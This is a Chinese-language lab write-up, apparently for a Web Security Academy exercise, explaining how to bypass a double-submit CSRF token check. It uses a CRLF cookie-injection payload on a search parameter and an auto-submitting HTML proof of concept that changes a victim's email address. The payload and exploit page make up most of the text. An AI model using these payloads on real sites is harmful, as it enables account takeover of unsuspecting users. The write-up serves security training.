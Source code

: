 cookie与post数据中同时存在csrf，

并且repeater验证只要post数据和cookie数据一致即可绕过验证。

![](images/6806B54A5D474757A58A35A2D45E1750clipboard.png)

只要cookie与post中的csrf令牌一致即可，发起请求



此时我们只要能够控制cookie的值，即可利用csrf漏洞



网站search接口存在cookie注入

payload:

```javascript
/?search=test%0d%0aSet-Cookie:%20csrf=fake
```

该paylod能注入cookie

![](images/520E3E306F034BF98A54486B04E09F94clipboard.png)



此时可以构造利用代码：

```javascript
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
  
  //post数据提交email修改请求
    <form action="https://ac111fac1f531520803e02ba00ac0052.web-security-academy.net/email/change-email" method="POST">
      <input type="hidden" name="email" value="14062&#64;qq&#46;com" />
      <input type="hidden" name="csrf" value="hack" />
      <input type="submit" value="Submit request" />
    </form>
    //img src错误自动提交post数据，并且访问src内容
<img src="https://ac111fac1f531520803e02ba00ac0052.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=hack" onerror="document.forms[0].submit();"/>
  </body>
</html>
```

将该脚本部署到恶意网站上诱使受害者打开即可，修改用户email